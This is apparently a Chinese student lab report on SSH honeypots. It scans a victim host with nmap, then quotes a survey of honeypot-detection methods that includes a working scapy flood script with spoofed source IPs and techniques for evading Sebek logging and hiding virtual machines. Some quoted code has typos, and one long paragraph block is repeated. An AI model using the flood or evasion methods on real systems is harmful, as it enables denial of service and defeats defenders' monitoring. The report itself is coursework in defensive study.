

分别使用Tcp connect 、TCP stealth scan、XMAS scan、FIN scan、NULL scan扫描对受害者主机进行探测

* Tcp connect


* TCP stealth scan



* XMAS scan



* FIN scan



* NULL scan



* 其中只有Tcp connect 检测时会被蜜罐记录，这是由于使用TCP Connect 扫描时不需要特殊的权限，但扫描方式不隐蔽，蜜罐的日志会纪录下大量密集的连接和错误记录。而其他扫描方式不会进行完整的握手，并不会被日志所记录。在TCP Connect 扫描期间，蜜罐中记录下tcp连接搭建的主机ip、端口号、时间、持续时间。TCP stealth scan可扫描到其22端口为打开状态，其他扫描中显示22端口为打开或过滤状态。

## 实验结论

- 如何辨别当前目标是一个「蜜罐」？以自己搭建的蜜罐为例进行说明；

在低交互蜜罐中，不能够给攻击者提供一个完整的操作系统环境，只是简单的记录连接。而在ssh-honeypot蜜罐中，虽然可检测到22端口的开放，但并不能进行三次握手连接，出现错误，依次可判断为蜜罐。

在中等交互蜜罐中，提供了完整的操作系统环境，但在使用一些较为高级的系统命令，例如curl而不是ping时，此“操作系统”会出现报错，并且暴露其蜜罐的真实身份与编译代码。而且使用命令行下载软件后也不能进行使用，故可辩别当前目标为一个蜜罐。

- （可选）总结常见的蜜罐识别和检测方法；

> 1.检测低交互蜜罐：
> （1）配置失真与资源抢夺
> 我们已经知道低交互蜜罐是不能够给敌人提供一个完整的操作系统环境，所以可以通过使用一些复杂的命令和操作，以及一些想不到的输出解决来检查是不是处在蜜罐环境中。
> 另外一种情况就是出现了配置失真，也就是说在一台机器上出现了两种不同平台的服务，举个例子：运行一个Windows的Web服务器同时运行了一个Linux的FTP服务器，这样的话就出现了配置失真。使用nmap -sV这个方法可以来观察开启的服务，如果发现了平台与服务不匹配的，说明这很有可能就是一个蜜罐。
> 与低交互蜜罐检测最主要的方式是通过网络，这样就意味着低交互蜜罐运行在一个具有正常操作系统的，只要是在操作系统中，不可能把所有的资源都分配给蜜罐，所以如果在蜜罐中执行一个很繁琐很耗资源的操作，这样蜜罐就会和其他服务进程去争抢资源，最直观的感受就是蜜罐的反应速度会慢下来。但是我们通常不具备这个权限来访问这种类型的服务或者是进程，所以我们必须得考虑从网络通信入手，增加蜜罐的操作负载，如果换一个角度想，可不可以让其他的服务去和蜜罐争抢资源，来拖慢蜜罐的反应速度，举个例子比如说如果蜜罐系统和一个web服务器同时运行在一台机器上，我们可以从web服务器入手，去给web服务器发送大量http请求，导致web服务器抢占大量计算机资源用来处理请求。这样就会让蜜罐的反应慢下来。
> 设计这样一个实验，假设我们有两台机器，一台机器是蜜罐服务器（192.168.1.100），另一台机器是入侵者（192.168.1.200），首先我们需要使用nmap去探测蜜罐服务器开了那些服务，使用如下命令：
>
> ```
> sudo nmap -sV -p T:1-65535 -Pn 192.168.1.100
> ```
>
> 等待一段时间之后会扫描到结果，假设其开启了Apache2 Server、SSH两个服务，我们可以编写一个简单的程序用来给Apache2 Server发HTTP数据包让其大量处理：、
>
> ```python
> \# coding = utf-8
> from scapy.all import * 
> from threading import Thread,activeCount 
> from random import randint
> 
> class Loop(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         ip = str(randint(0,255))+'.'\ 
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))
>         sr1(IP(src = ip,dst = self.remoteAddr)/TCP(dport = 80),retry = 0,verbose = 0,timeout = 3)
> 
> class Main(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         limit = 140 
>         total = 0
> 
>         while True: 
>             if activeCount() < limit: 
>                 Loop(remoteAddr = self.remoteAddr).start() 
>                 total = total + 1 
>             print 'HTTP Flood Test:',total
> 
> if __name__ == '__main__': 
>     remoteAddr = raw_input('IP=')
>     Main(remoteAddr = remoteAddr).start()
> ```
>
> 我们利用scapy实现了一个简单的http flood的工具，现在我们开始对蜜罐服务器的http服务发动攻击
>
> ```
> python http_flood.py
> ```
>
> 我们同时再去观察蜜罐的响应速度，如果假设正确，此时蜜罐的响应速度应该会大幅度减慢。如果你使用HoneyD或者是LaBrea创建多个蜜罐来组建蜜网的话，只要增加其中一个蜜罐的负载，就可以影响其他蜜罐的运行速度。但是这么干的话，可能会被蜜罐所属的服务器管理员发现，毕竟DDoS动静很大。
>
> （2）数据包时间戳分析
> 如果我们仅通过查看网络数据包能很容易的推断出一个机器的物理属性，我们就很有可能辨别物理服务器和虚拟蜜罐。事实证明，TCP提供了一些直接反映底层服务器状态的信息。TCP时间戳选项被网络堆栈用于确定重传超时时间。机器中的无历史中安特定频率更新时间戳，我们也知道，所有的物理时钟都有一定时钟偏差，他们或多或少于实际运行时间。
> 通过打开一个到主机的TCP链接，并记录为每个连接所提供的时间戳，就可以去观察时间偏差。我们的希望是每个物理系统或者是操作系统显示出来不同的偏差。如果说一个服务器上运行了多个蜜罐的话，就容易出现每一个蜜罐出现相同的时间偏差，这样的话蜜罐就完全暴露了。这种基于对硬件检测的思想也可以在一定程度上去实现检测是不是蜜罐。
>
> （3）分析低交互蜜罐产生的网络响应来寻找差异
> 举个例子，LaBrea试图推迟入站TCP连接，这样做是合法的，但很少用于TCP技术。任何使用Wireshark或者是tcpdump查看连接的人都可以立刻说出正在发生什么事情。如果说蜜罐系统试图欺骗敌手，使他们相信是在和一个真的环境打交道的话，蜜罐系统在网络行为中的任何差异都可以用来检测它。
>
> （4）环境不真实导致穿帮
> 来自Merit网络公司的John Oberheide等人注意到，HoneyD重组IP数据包分片不正确，根据RFC791，通过匹配原地址、目的地址、标识号和协议号来识别对应的分片。不幸的是HoneyD没有正确的实现匹配的步骤，在重组分片数据包时候忘记比较了协议号，出现问题的代码如下：
>
> ```python
> \#define DIFF(a, b) do {
>     if ((a)<(b)) return -1;
>     if ((a)>(b)) return 1;
> }while(0)
> 
> int fragcompare(sturct fragment *a, struct fragment *b)
> {
>     DIFF(a->ip_src, b->ip_src);
>     DIFF(a->ip_dst, b->ip_dst);
>     DIFF(a->ip_id, b->ip_id);
>     Return (0);
> }
> ```
>
> 正如你所看到的，IP字段并没作比较，这导致了honeyd把具有相同原地址、目的地址、标识号和协议号的不同协议分片进行了重组。在正常操作中其实这样不会影响蜜罐功能，因为不太可能多个分片的四个字段只有这三个字段匹配。但是对于入侵者而言，如果是精心构造的数据包的话，honeyd可能会将这些数据包重组，而真实环境则可能会直接将数据包丢弃。John Oberheide也放出了这个利用工具：[http://jon.oberheide.org/projects/winnie](https://link.zhihu.com/?target=http%3A//jon.oberheide.org/projects/winnie)
> 其实不仅仅是HoneyD，其他的蜜罐系统可能由于开发人员的疏忽或者是误判等原因，使得不能够完全的模拟真是环境所能得到的反馈，导致蜜罐的实际输出和真是输出存在着些许的不同，在设计蜜罐系统的时候一定要留意到操作系统和应用服务之前的一些彩蛋，攻击者可能会利用这些彩蛋来完成对蜜罐系统的识别。
>
> 2.检测高交互蜜罐
> （1）检测和禁用sebek：
> （2）检测蜜墙：
> 如果入侵者利用蜜网作为跳板攻击第三方系统，大多数蜜网的管理员理当害怕承担责任。因此，他们使用两种常用的技术来最小化成功攻击第三方系统的的风险：首先极其严格的限制出战连接数，每天只允许15个出站TCP链接。不幸的是，这种控制出站流量的极端措施很容易检测蜜罐的存在。对于这种特殊的限制策略，我们只需要初始化大量出站链接（到其他主机的SYN包），看一下什么时候这些连接被蜜墙阻止。最好的兼职策略就是不限制链接数量而是限制达到不同目标主机的上限，然而出站连接到大量不同主机的策略也容易被检测出来。这样的一个实验结果可能并不总是很清晰，因为现在的一些ISP也是事了一些机制，采用类似的限制连接数的方法来遏制蠕虫的传播。
> 部署Snort_inline是一种防止出站攻击攻击造成破坏的方式，snort_inline检查出站流量中已知的漏洞利用代码，并以某种方式破坏他们，使他们停止工作。蜜网管理员一般会使用一个类似肺功能字符串类似于/bln/sh来替换shellcode里面的/bin/sh，比如说下面的代码：
>
> ```
> alert ip $HONEYPOT any->$EXTERNAL_NET any
> (
>     msg: “SHELLCODE x86 stealth NOOP”; 
>     sid:651;
>     content:”EB 02 EB 02 EB 02”;
>     replace:”24 00 99 DE 6C 3E”;
> )
> ```
>
> 入侵者通过构造一个包含匹配Snort_inline重写数据库规则字符串的通信流，并检查接收到的所有数据包是否有改变，可以检测蜜墙的存在。
>
> （3）逃避蜜网记录：
>
> 我们应该去考虑降低日志的使用价值，攻击者可以使记录的数据无法理解，或者是日志记录本身不可靠，或者采用一些方法式的攻击行为根本不会被记录。我们可以尝试着攻击日志主机，并从日志主机中擦除数据，但是通常不可行，如果我们加密所有的网络通信，一个被动的或者外部的系统将不能从他获得任何有异议的内容。这样做的主要问题是对目标的初始漏洞利用通常是不可能加密的。有一个例外是https传递漏洞利用代码。
> 为了逃避基于主机系统的日志记录，我们需要更详细的了解一下sebek的工作原理：sebek能够访问内核sys_read函数处理的所有数据，当一个进程调用read的时候，sebek会记录下他的PID，UID，文件描述符和前12个字符，以及被读取的数据。例如被访问文件的路径和调用程序的路径都没有被记录，这就意味着取证分析需要猜测谁正在读取什么。这就允许我们向sebek日志中引入任意的干扰信息。比如说我们可以在/tmp中创建看上去正常的影子口令文件，并通过cat去读取他。蜜网的管理员会认为我们在读取真实的影子口令文件。当我们打算使用一些二进制文件用以决定哪个程序执行会更困难时，我们可以随机的重命名这些文件，当我们不能直接控制我们的pid的时候，在终止父进程的时候我们就以频繁的添加执行fork(), 以维持这个pid作为活动目标，降低日志价值的另一种方法是利用chaff命令，chaff命令没有任何特定的目的，而是为了增加分析的复杂性，一个具有良好配置的日志系统能够自动跟踪我们的与会欺骗，然而，我们设法让一个人来查看我们的chaff命令，取证分析效率会明显降低。
> A.使日志不可靠：比如说在dd攻击下，sebek的日志会变得非常不可靠。dd攻击会提高网络通信效率，使得需要储存大量日志，从而造成网络拥塞或者系统过载，以至于并非所有日志宝都能到达储存系统，因为被丢弃的数据包数量变化较大，所以这种逃避日志记录的方法不是很可靠。
> B.完全避免日志记录：为了阻止sebek记录被攻陷的蜜网上的活动，我们只要停止使用read()去调用就可以了，濒危sebek所有获得的数据来自于read()系统的调用，为了不通过read()系统调用一个文件的内容，我们可以使用mmap()函数，将文件直接映射到内存中，从而绕过日志记录。不幸的是，设备文件和类似于/proc这样特殊的文件系统不能以这种方式读取。其实通过exec()执行程序也可以绕过read()，但是程序启动的时候动态连接器将各种动态库装进内存中是通过mmap()实现的，但是也有可能是通过read()实现的，所以有一定概率还是能不过到入侵者的操作。
>
> （4）检测虚拟机：
> VMWare硬件虚拟化创建一个x86的硬件平台界面，允许安装任何操作系统。我们可以利用虚拟化在同一个物理硬件上同时运行多个操作系统，除了更方便的资源管理，对于蜜罐操作者来说，主要是有点事虚拟机提供的隔离能力。还有一种方法就是提供低权限的用户取运行客户机操作系统，当客户执行一个特权命令的时候，vmm接受到一个陷阱，并可以模拟期望的行为，不过其他特权状态可能会驻留在客户的内存里。可以把这部分内存变为写保护。
>
> 
>
> 
> 虚拟机监视器需要提供的功能：
>
> - 保真度允许一个vmm运行任何软件
> - 性能允许快速执行客户机指令，也就是说几乎没有VMM的干预
> - 安全性要求VMM提供底层硬件资源的适当隔离
>
> 除了虚拟化不同的操作系统之外，vmware也会虚拟硬件层，但是虚拟的硬件层里面会带有信息，所以可以使用以下命令去对信息进行判断，比如说：
>
> ```
> sudo dd if=/dev/mem bs=64k skip=12 count=1| string -n10
> ```
>
> 输入这条命令后，虚拟机会和物理机得到不一样的输出：
>
> 
>
> 
> 可以通过输入来判断是否进入了虚拟机，但是虚拟机不能作为衡量蜜罐的一个标准，首先由于云计算和虚拟化技术的发展，可能你进入到虚拟机恰好是真实的生产环境，所以确定虚拟机后很难确定是否为蜜罐环境。
> 对于这一点，可以使用一个工具来修复这个问题：[http://honeynet.rstack.org/tools/vmpatch.c](https://link.zhihu.com/?target=http%3A//honeynet.rstack.org/tools/vmpatch.c)，该工具除了可以额更改设备标示符之外，还提供以下的功能：
>
> - 禁用I/O后门：该工具定位EAX与幻数0x564D5868比对的代码序列，采用一条NOP指令替换条件转移，实现后门功能的代码不再会被访问到。
> - 改变MAC地址：VMWare为其虚拟网络接口使用三种不同的MAC前缀，用这个工具可以修改
> - 改变显卡BIOS，这个工具可以加载一个全新的适配器。
>   虚拟机检测方法总共有三类：
>
> - 逻辑差异：在真实和虚拟的接口中，逻辑差异是不同的，例如一些非虚拟化指令执行时是有差异的，例如SIDT、SGDT和SLDT，这些差异允许在用户级检查特权状态。对于兼容性来说，不要求一致的模拟这些指令，所以这里的VMM不需要必须是透明的。另一个例子就是VMM模拟芯片组，VMWare总是模拟Intel i440bx芯片组，这可能会出现配置错乱的情况，比如说Intel主板上跑AMD的CPU。
> - 资源差异：因为VMM需要共享跨越所有客户及操作系统的物力资源，资源的可用性并不总是能得到保证或者被公平利用。举个例子就是转移后援缓冲区（TLB）的大小问题，VMM中的虚拟地址映射有客户操作系统同时竞争首先资源，通过巧妙地修改页表表项，确定页表的尺寸是可能的，攻击者检测VMM的存在，首先执行不会引起任何VMM调用的尺寸测量算法，然后再穿插VMM调用并重新计算页表大小，第二次测量也标尺寸的时候，会发现TLB看起来会小一些。
> - 计时差异：计时的差异不仅仅是由于虚拟化的开销，这些可以通过在更快的硬件或者软件上运行得以改善，当在VMM下运行时候，任何两个操作的延迟总是有变化的，举个例子来说就是：在物理硬件上的一个PCI寄存器可能花费100个周期去读取数据，而当这个虚拟硬件寄存器在处理机的高速缓存中时，可能只需花费一个时许周期就能完成读操作。由于高速缓存的特性，在VMM上的这种操作的变化大大高于在物理硬件上执行时所期望的变化
>
> 对于QEMU的话，假设QEMU提供对所有CPU指令的正确仿真，而真正做到这一点的话其实不太可能。Symantec的安全研究员提出了一种检测QEMU的技术：
> 当运行在AMD CPU下的时候，CPUID指令不能反悔正确的值。首先检查QEMU是否运行在AMD的系统上，如果是：使用EAX=80000000h泛会所支持的最高扩展函数。这个测试确保CPUID指令接收EAX=80000002H，用于提取处理机商标的字符串，在QEMU下面是QEMU Virtual CPU Version….而不是AMD Processor。
>
> （5）检测UML：
> UML(不是你们说的那个UML，这里的UML是User Mode Linux，用户模式Linux，一张非常特殊的虚拟机)支持从自身内运行Linux内核，客户机操作系统运行在主机内核之上，也就是在用户空间之上，有点类似于上面VMWare那个图。UML的本质是一个调整过的内核，特殊性在于能够在用户空间中运行。
> 用UML当做蜜罐环境有些好处，但是UML还是尽量别用在蜜罐上面，默认情况下，UML在TT（不是奥迪TT，是Tracing Thread追踪线程模式）模式下运行，一个主线程函数ptrace()追踪客户机操作系统中每一个启动的新进程，在主机操作系统上，借助ps命令可以去查看：
>
> 
>
> 
>
> 可以看到主线程（PID 1039）和几个被追踪的线程：一些内核线程（PID 1044-1066）、init（PID 1068）、ile（PID 1268）和shell（PID 1272）、dd（PID 1348）。如果hostfs模块可用，该模块讲一个主机操作系统目录载入到UML的文件系统，从客户机上能够获得一些类似的信息：
>
> ```
> uml# mount -t hostfs /dev/hda1 /mnt
> uml# find /mnt/proc -name exe| xargs ls -l
> ```
>
> 当使用默认值的时候，UML不会有意隐藏dmesg的显示输出。这样的话可以通过这种手段来是被UML。
> 使用TUN/TAP作为后端网络设备是UML的另一个标识，另一种暴露是被称为/dev/ubd*的伪IDE设备，UML使用这个伪造的IDE设备代替真是的硬盘，攻击者可以通过查看/etc/fstab内容，或者执行mount命令就可以检测到UML的存在，启动带有fake_ide和fakehd选项的UML时候可能会隐藏这些信息，但是还是会留下一些信息，比如说自盘设备的大数标示（0x62），这与IDE和SCSI不一样。
> 查看/proc也能识别UML，这个目录中的大多数项目都显示了UML的标示，文件/proc/cpuinfo包含了CPU和系统特殊信息，能让我们确定这是一个在TT下的UML。除此之外还有iomen、filesystems、interrupts和许多其他文件看起来是可疑的，包含了很多UML的特征。我们为了让识别UML的难度更大一些，可以使用命令hppfs定制化/proc层次结构中的内容，但是有点浪费时间。
> 此外地址空间也是一个可以看一下的地方。文件/proc/self/maps包含当前内存映射区域和当前进程的访问许可，相比之下在UML模式下看起来会有点不同，在客户机OS下最高地址指示了堆栈的末端，这个和UML里面的有些不同。原因是UML讲Linux内核映射到每一个进程的地址空间中，这个内核占据的空间是0x00000000-0xbefff000。这意味着每个进程都能对UML的内核进行访问或者修改，一旦攻击者进入了客户机的OS里面并且是以root形式，他就能够摆脱客户机OS去攻击宿主机。
>
> 当使用默认值的时候，UML不会有意隐藏dmesg的显示输出。这样的话可以通过这种手段来是被UML。
> 使用TUN/TAP作为后端网络设备是UML的另一个标识，另一种暴露是被称为/dev/ubd*的伪IDE设备，UML使用这个伪造的IDE设备代替真是的硬盘，攻击者可以通过查看/etc/fstab内容，或者执行mount命令就可以检测到UML的存在，启动带有fake_ide和fakehd选项的UML时候可能会隐藏这些信息，但是还是会留下一些信息，比如说自盘设备的大数标示（0x62），这与IDE和SCSI不一样。
> 查看/proc也能识别UML，这个目录中的大多数项目都显示了UML的标示，文件/proc/cpuinfo包含了CPU和系统特殊信息，能让我们确定这是一个在TT下的UML。除此之外还有iomen、filesystems、interrupts和许多其他文件看起来是可疑的，包含了很多UML的特征。我们为了让识别UML的难度更大一些，可以使用命令hppfs定制化/proc层次结构中的内容，但是有点浪费时间。
> 此外地址空间也是一个可以看一下的地方。文件/proc/self/maps包含当前内存映射区域和当前进程的访问许可，相比之下在UML模式下看起来会有点不同，在客户机OS下最高地址指示了堆栈的末端，这个和UML里面的有些不同。原因是UML讲Linux内核映射到每一个进程的地址空间中，这个内核占据的空间是0x00000000-0xbefff000。这意味着每个进程都能对UML的内核进行访问或者修改，一旦攻击者进入了客户机的OS里面并且是以root形式，他就能够摆脱客户机OS去攻击宿主机。

## 遇到的问题

* 启动ssh服务时报错

```
FATAL: ssh_bind_listen(): 
```

解决：由于在修改ssh配置文件时未删去#（注释），导致配置未重启用，删除后即可

## 参考资料

1.[paralax/awesome-honeypots](https://github.com/paralax/awesome-honeypots)

2.[chap0x11 SSH 蜜罐应用实验](https://github.com/CUCCS/2018-NS-Public-jckling/blob/master/ns-0x11/0x11.md)

3.[如何判断是不是进入了蜜罐？](https://www.zhihu.com/question/31213254)